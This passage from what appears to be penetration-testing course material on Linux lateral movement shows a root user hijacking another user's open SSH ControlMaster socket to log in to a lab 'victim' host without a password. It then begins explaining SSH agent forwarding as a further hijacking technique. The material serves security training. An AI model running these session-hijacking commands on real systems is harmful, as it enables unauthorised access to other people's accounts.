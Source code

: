 ```
root@controller:~# ls -al /home/offsec/.ssh/controlmaster
total 8
drwxrwxr-x 2 offsec offsec 4096 May 13 16:22 .
drwx------ 3 offsec offsec 4096 May 13 13:55 ..
srw------- 1 offsec offsec    0 May 13 16:22 offsec@linuxvictim:22

root@controller:~# ssh -S /home/offsec/.ssh/controlmaster/offsec\@linuxvictim\:22 offsec@linuxvictim
Last login: Wed May 13 16:22:08 2020 from 192.168.120.40
offsec@linuxvictim:~$ 
```

> Listing 19 - Hijacking as root with an open socket

Once again, we're able to log in to the linuxvictim machine without being required to enter a password.

1

(The MITRE Corporation, 2020), [https://attack.mitre.org/techniques/T1184/](https://attack.mitre.org/techniques/T1184/) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_555-1)

2

(OpenBSD, 2020), [http://man.openbsd.org/ssh\_config.5#ControlMaster](http://man.openbsd.org/ssh_config.5#ControlMaster) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_555-2)

3

(SSH Communications Security, Inc., 2020), [https://www.ssh.com/ssh/agent](https://www.ssh.com/ssh/agent) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_555-3)

4

(Wikibooks, 2020), [https://en.wikibooks.org/wiki/OpenSSH/Cookbook/Multiplexing](https://en.wikibooks.org/wiki/OpenSSH/Cookbook/Multiplexing) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_555-4)

5

(die.net), [https://linux.die.net/man/5/ssh\_config](https://linux.die.net/man/5/ssh_config) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fnref-local_id_555-5)

#### 17.1.4. SSH Hijacking Using SSH-Agent and SSH Agent Forwarding

Now that we've covered SSH hijacking with ControlMaster, let's move on to another technique. This method of SSH hijacking revolves around the use of _SSH-Agent_ and _SSH Agent Forwarding_.

SSH-Agent is a utility that keeps track of a user's private keys and allows them to be used without having to repeat their passphrases on every connection.

SSH agent forwarding is a mechanism that allows a user to use the SSH-Agent on an intermediate server as if it were their own local agent on their originating machine. This is useful in situations where a user might need to ssh from an intermediate host into another network segment, which can't be directly accessed from the originating machine. It has the advantage of not requiring the private key to be stored on the intermediate server and the user does not need to enter their passphrase more than once.
